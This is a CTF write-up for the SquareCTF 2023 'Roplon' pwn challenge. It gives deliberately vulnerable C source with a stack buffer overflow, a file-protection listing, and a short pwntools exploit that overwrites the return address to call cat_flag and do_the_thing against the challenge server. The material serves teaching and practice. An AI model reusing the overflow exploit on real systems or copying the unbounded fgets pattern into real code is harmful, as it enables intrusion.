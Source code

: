 ```yaml
---
title: Roplon
date: 2023-11-17T20:00:00+02:00
description: Writeup for Roplon [SquareCTF 2023]
type: writeup
author: PineBel
tags:
- pwn
draft: false
---
```


### Challenge Description

I THINK that buffer is big enough, right?


### Solution

In the roplon.c file, we observe the invocation of several functions. Notably, two functions stand out: cat_flag, which assigns the command_buf to "cat flag.txt," and do_the_thing, which launches a shell with the command provided as an argument. Additionally, the program allows writing to a buffer. The program's vulnerability lies in a buffer of 16 bytes, but the fgets function permits writing up to 9999 bytes   .


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char command_buf[128];

char *copy_command_to_buf(char *command,  char *buf)
{
    strcpy(buf, command);
}

void cat_flag()
{
    copy_command_to_buf("cat flag.txt", command_buf);
}

void ls()
{
    copy_command_to_buf("ls -lh flag.txt", command_buf);
}

void shasum_flag()
{
    copy_command_to_buf("shasum flag.txt", command_buf);
}

void do_the_thing(char *the_thing)
{
    system(the_thing);
}

int main(void)
{
    puts("Welcome to the ROPL!");

    while (1)
    {
        puts("what thing would you like to do?\n1: ls -lh flag.txt\n2: shasum flag.txt");
        char choice[16];
        fgets(choice, 9999, stdin);
        if (choice[0] == '1')
        {
            ls();
            do_the_thing(command_buf);
        }
        else if (choice[0] == '2')
        {
            shasum_flag();
            do_the_thing(command_buf);
        }
        else
        {
            break;
        }
    }
}

```

Let's check the file protections:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified   Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   44 Symbols        No    0  2roplon

```

Given the absence of a canary and the lack of PIE, we can craft an exploit to overwrite the return address of the main function, enabling us to call cat_flag and do_the_thing.

```py

elf = pwn.ELF("./roplon")
p = elf.process()

cat_addr = elf.symbols['cat_flag']
sys_addr = elf.symbols['do_the_thing']

target = pwn.remote("184.72.87.9", 8007)

target.sendline(b"A"*24 + pwn.p64(cat_addr) + pwn.p64(sys_addr))
target.interactive()

```

#### Flag
After executing, we get the flag.

